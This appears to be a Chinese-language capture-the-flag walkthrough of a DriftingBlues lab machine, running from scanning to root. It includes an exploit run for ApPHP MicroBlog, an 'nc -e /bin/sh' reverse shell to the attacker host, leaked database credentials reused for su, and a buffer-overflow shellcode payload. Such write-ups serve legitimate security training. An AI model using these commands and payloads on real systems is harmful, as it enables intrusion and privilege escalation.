




# 信息搜集
主机发现

```bash
┌──(root㉿kali)-[~]
└─# arp-scan -l
Interface: eth0, type: EN10MB, MAC: 00:0c:29:f7:03:e6, IPv4: 192.168.21.13
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.21.1    cc:e0:da:eb:34:a2       Baidu Online Network Technology (Beijing) Co., Ltd
192.168.21.2    04:6c:59:bd:33:50       Intel Corporate
192.168.21.10   08:00:27:86:be:94       PCS Systemtechnik GmbH
192.168.21.4    c2:ab:39:9e:98:94       (Unknown: locally administered)
192.168.21.11   92:87:65:03:f9:bb       (Unknown: locally administered)

5 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.046 seconds (125.12 hosts/sec). 5 responded
```
端口扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --min-rate 10000 -p- 192.168.21.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-14 00:52 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00044s latency).
Not shown: 65532 closed tcp ports (reset)
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
50226/tcp open  unknown
MAC Address: 08:00:27:86:BE:94 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 1.91 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sU --min-rate 10000 -p- 192.168.21.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-14 00:52 EDT
Warning: 192.168.21.10 giving up on port because retransmission cap hit (10).
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00092s latency).
Not shown: 65455 open|filtered udp ports (no-response), 78 closed udp ports (port-unreach)
PORT      STATE SERVICE
111/udp   open  rpcbind
47746/udp open  unknown
MAC Address: 08:00:27:86:BE:94 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 72.92 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sT -sV -O -p80,111,50226 192.168.21.10
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-14 00:54 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00032s latency).

PORT      STATE SERVICE VERSION
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
111/tcp   open  rpcbind 2-4 (RPC #100000)
50226/tcp open  status  1 (RPC #100024)
MAC Address: 08:00:27:86:BE:94 (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.65 seconds
                                                                
┌──(root㉿kali)-[~]
└─# nmap -sU -sV -O -p111,47746 192.168.21.10   
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-14 00:55 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00027s latency).

PORT      STATE SERVICE VERSION
111/udp   open  rpcbind 2-4 (RPC #100000)
47746/udp open  status  1 (RPC #100024)
MAC Address: 08:00:27:86:BE:94 (Oracle VirtualBox virtual NIC)
Too many fingerprints match this host to give specific OS details
Network Distance: 1 hop

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.85 seconds
```
漏洞扫描

```bash
┌──(root㉿kali)-[~]
└─# nmap --script=vuln -p80 192.168.21.10 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-14 00:58 EDT
Nmap scan report for 192.168.21.10 (192.168.21.10)
Host is up (0.00030s latency).

PORT   STATE SERVICE
80/tcp open  http
| http-internal-ip-disclosure: 
|_  Internal IP Leaked: 127.0.1.1
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-csrf: Couldn't find any CSRF vulnerabilities.
| http-enum: 
|   /admin/home.php: Possible admin folder
|   /backup/: Backup folder w/ directory listing
|   /rss.xml: RSS or Atom feed
|   /README.txt: Interesting, a readme.
|   /docs/: Potentially interesting directory w/ listing on 'apache/2.4.10 (debian)'
|   /images/: Potentially interesting directory w/ listing on 'apache/2.4.10 (debian)'
|   /include/: Potentially interesting directory w/ listing on 'apache/2.4.10 (debian)'
|   /js/: Potentially interesting directory w/ listing on 'apache/2.4.10 (debian)'
|   /license/: Potentially interesting folder
|   /page/: Potentially interesting directory w/ listing on 'apache/2.4.10 (debian)'
|_  /styles/: Potentially interesting directory w/ listing on 'apache/2.4.10 (debian)'
MAC Address: 08:00:27:86:BE:94 (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 30.85 seconds
```
目录扫描

```bash
┌──(root㉿kali)-[~]
└─# gobuster dir -u http://192.168.21.10 -w /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt 
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.21.10
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-lowercase-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 315] [--> http://192.168.21.10/images/]                                              
/docs                 (Status: 301) [Size: 313] [--> http://192.168.21.10/docs/]                                                
/page                 (Status: 301) [Size: 313] [--> http://192.168.21.10/page/]                                                
/admin                (Status: 301) [Size: 314] [--> http://192.168.21.10/admin/]                                               
/license              (Status: 301) [Size: 316] [--> http://192.168.21.10/license/]                                             
/js                   (Status: 301) [Size: 311] [--> http://192.168.21.10/js/]                                                  
/include              (Status: 301) [Size: 316] [--> http://192.168.21.10/include/]                                             
/backup               (Status: 301) [Size: 315] [--> http://192.168.21.10/backup/]                                              
/styles               (Status: 301) [Size: 315] [--> http://192.168.21.10/styles/]                                              
/wysiwyg              (Status: 301) [Size: 316] [--> http://192.168.21.10/wysiwyg/]                                             
/server-status        (Status: 403) [Size: 278]
/mails                (Status: 301) [Size: 314] [--> http://192.168.21.10/mails/]                                               
Progress: 207643 / 207644 (100.00%)
===============================================================
Finished
===============================================================
```
# 漏洞利用
看一下80端口有什么



找一下相关漏洞

```bash
┌──(kali㉿kali)-[~]
└─$ searchsploit apphp 1.0.1    
------------------------------ ---------------------------------
 Exploit Title                |  Path
------------------------------ ---------------------------------
ApPHP MicroBlog 1.0.1 - Multi | php/webapps/33030.txt
ApPHP MicroBlog 1.0.1 - Remot | php/webapps/33070.py
------------------------------ ---------------------------------
Shellcodes: No Results
                                                                
┌──(kali㉿kali)-[~]
└─$ searchsploit -m 33070   
  Exploit: ApPHP MicroBlog 1.0.1 - Remote Command Execution
      URL: https://www.exploit-db.com/exploits/33070
     Path: /usr/share/exploitdb/exploits/php/webapps/33070.py
    Codes: OSVDB-106352, OSVDB-106351
 Verified: True
File Type: Python script, ASCII text executable
Copied to: /home/kali/33070.py
```
利用成功

```bash
┌──(kali㉿kali)-[~]
└─$ python2 33070.py http://192.168.21.10
  -= LOTFREE exploit for ApPHP MicroBlog 1.0.1 (Free Version) =-
original exploit by Jiko : http://www.exploit-db.com/exploits/33030/
[*] Testing for vulnerability...
[+] Website is vulnerable

[*] Fecthing phpinfo
        PHP Version 5.6.40-0+deb8u12
        System   Linux debian 3.16.0-4-586 #1 Debian 3.16.51-2 (2017-12-03) i686
        Loaded Configuration File   /etc/php5/apache2/php.ini
        Apache Version   Apache/2.4.10 (Debian)
        User/Group   www-data(33)/33
        Server Root   /etc/apache2
        DOCUMENT_ROOT   /var/www/html
        PHP Version   5.6.40-0+deb8u12
        allow_url_fopen  On  On
        allow_url_include  Off  Off
        disable_functions  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,  pcntl_alarm,pcntl_fork,pcntl_waitpid,pcntl_wait,pcntl_wifexited,pcntl_wifstopped,pcntl_wifsignaled,pcntl_wexitstatus,pcntl_wtermsig,pcntl_wstopsig,pcntl_signal,pcntl_signal_dispatch,pcntl_get_last_error,pcntl_strerror,pcntl_sigprocmask,pcntl_sigwaitinfo,pcntl_sigtimedwait,pcntl_exec,pcntl_getpriority,pcntl_setpriority,
        open_basedir   no value    no value
        System V Message based IPC   Wez Furlong
        System V Semaphores   Tom May
        System V Shared Memory   Christian Cartus

[*] Fetching include/base.inc.php
<?php
                        // DATABASE CONNECTION INFORMATION
                        define('DATABASE_HOST', 'localhost');          // Database host
                        define('DATABASE_NAME', 'microblog');          // Name of the database to be used
                        define('DATABASE_USERNAME', 'clapton');// User name for access to database
                        define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database
                        define('DB_ENCRYPT_KEY', 'p52plaiqb8');// Database encryption key
                        define('DB_PREFIX', 'mb101_');             // Unique prefix of all table names in the database
                        ?>

[*] Testing remote execution
[+] Remote exec is working with system() :)
Submit your commands, type exit to quit
> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)


> nc -e /bin/sh 192.168.21.13 1234;
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 1234         
listening on [any] 1234 ...
connect to [192.168.21.13] from (UNKNOWN) [192.168.21.10] 60537
python -c "import pty;pty.spawn('/bin/bash')"
www-data@debian:/var/www/html$ 
```
# 提权
应该先要到clapthon
```bash
www-data@debian:/var/www/html$ cat /etc/passwd | grep /bin/bash
cat /etc/passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
clapton:x:1000:1000:,,,:/home/clapton:/bin/bash
```
找到了账号密码
```bash
www-data@debian:/var/www/html/include$ cat base.inc.php
cat base.inc.php
<?php
                        // DATABASE CONNECTION INFORMATION
                        define('DATABASE_HOST', 'localhost');          // Database host
                        define('DATABASE_NAME', 'microblog');          // Name of the database to be used
                        define('DATABASE_USERNAME', 'clapton');// User name for access to database
                        define('DATABASE_PASSWORD', 'yaraklitepe');     // Password for access to database
                        define('DB_ENCRYPT_KEY', 'p52plaiqb8');// Database encryption key
                        define('DB_PREFIX', 'mb101_');             // Unique prefix of all table names in the database
                        ?>
```
切换到clapton

```bash
www-data@debian:/var/www/html/include$ su clapton
su clapton
Password: yaraklitepe

clapton@debian:/var/www/html/include$ id
id
uid=1000(clapton) gid=1000(clapton) groups=1000(clapton)
```
user.txt

```bash
clapton@debian:~$ ls -la
ls -la
total 24
dr-x------ 2 clapton clapton 4096 May  9  2021 .
drwxr-xr-x 3 root    root    4096 May  9  2021 ..
-rwsr-xr-x 1 root    root    5150 Sep 22  2015 input
-rwxr-xr-x 1 root    root     201 May  9  2021 note.txt
-rw-r--r-- 1 clapton clapton   32 May  9  2021 user.txt
clapton@debian:~$ cat user.txt
cat user.txt
F569AA95FAFF65E7A290AB9ED031E04F
```
提示要缓冲区溢出

```bash
clapton@debian:~$ cat note.txt
cat note.txt
buffer overflow is the way. ( ° ʖ °)

if you're new on 32bit bof then check these:

https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html
https://samsclass.info/127/proj/lbuf1.htm
```
下载下来看一看

```bash
┌──(kali㉿kali)-[~]
└─$ checksec --file=input
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified      Fortifiable      FILE
No RELRO        No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   69 Symbols        No    0              2input
┌──(kali㉿kali)-[~]
└─$ file input       
input: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 2.6.24, BuildID[sha1]=9e50c7cacaf5cc2c78214c81f110c88e61ad0c10, not stripped
```






然后把bbbb替换为我们要的返回地址



后面搞不出来了，学艺不精，找了一下大佬的payload

```bash
for i in {1..10000}; do (./input $(python -c 'print("A" * 171 + "\x10\x0c\x97\xbf" + "\x90"* 1000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80")')); done
```
root.txt

```bash
cd /root
# ls -la
ls -la
total 16
drwx------  2 root root 4096 May  9  2021 .
drwxr-xr-x 21 root root 4096 May  9  2021 ..
-rw-------  1 root root  649 May  9  2021 .bash_history
-rw-r--r--  1 root root  295 May  9  2021 root.txt
# cat root.txt
cat root.txt
   
this is the final of driftingblues series. i hope you've learned something from them.

you can always contact me at vault13_escape_service[at]outlook.com for your questions. (mail language: english/turkish)

your root flag:

04D4C1BEC659F1AA15B7AE731CEEDD65

good luck. ( ° ʖ °)
```